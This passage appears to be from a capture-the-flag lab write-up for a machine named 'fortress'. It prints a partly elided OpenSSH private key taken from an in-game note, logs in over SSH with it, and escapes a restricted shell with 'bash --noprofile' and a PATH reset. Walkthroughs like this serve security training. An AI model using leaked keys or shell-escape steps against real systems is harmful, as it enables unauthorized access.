 ```bash
</body>
</html>
```

<p>

- fortress:7331/m0td_f0r_j4x0n.txt<br>
- h4rdy<br>
- private key</p>


<h2>h4rdy´s Private Key</h2>

```bash
"The Temple guards won't betray us, but I fear of their foolishness that will take them down someday. 
I am leaving my private key here for you j4x0n. Prepare the fort, before the enemy arrives"
            - h4rdy

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxxO1IrpzA3klEYGFfD+4wUr5Q85IEEAIpwC+zY547gPJ5xIJE76j
hR8J6sTOsFJNa+PMG/MvqUFcubThbQ7y7GAj5DP1E/TuaTi7T/oARq5z1Zj+ZYyq/HiHp1
...
FG881GZpev3A+Z3VNKj1iN9gVzLcDKuQAAAMEAyvW4u/krg/vMpMRwWsVeLxqzN3SsLOQd
HxEdwnZMZIitYBeUiebkbRCrBy7D0rsFtfF5uC8BKUv7b8WG9YFZhnRvjodVMyYMmORAro
gTdM9rBCdKNMf/z0q36oMpO0On8MkXTv7W1oJ10eoF0oICVU6mKRUAUHmSoxYXN3msvLvZ
u6zkw+OP8QJX2zwbah38yuRhh8xRf2AlXtx2IxklXV/b8+6QH74Z5o7ZVbTLhzsv0fhFLe
8aBV2g1DdSMuSzAAAADmo0eDBuQDB2ZXJmbGF3AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

```bash
:~# nano id_rsa
```

```bash
:~# chmod 600 id_rsa
```

<h2>SSH</h2>

```bash
:~# ssh h4rdy@fortress -i id_rsa
...
h4rdy@fortress:~$
```

```bash
:~# ssh h4rdy@fortress -i id_rsa -t "bash --noprofile"
h4rdy@fortress:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
h4rdy@fortress:~$ export SHELL=/bin/bash
h4rdy@fortress:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
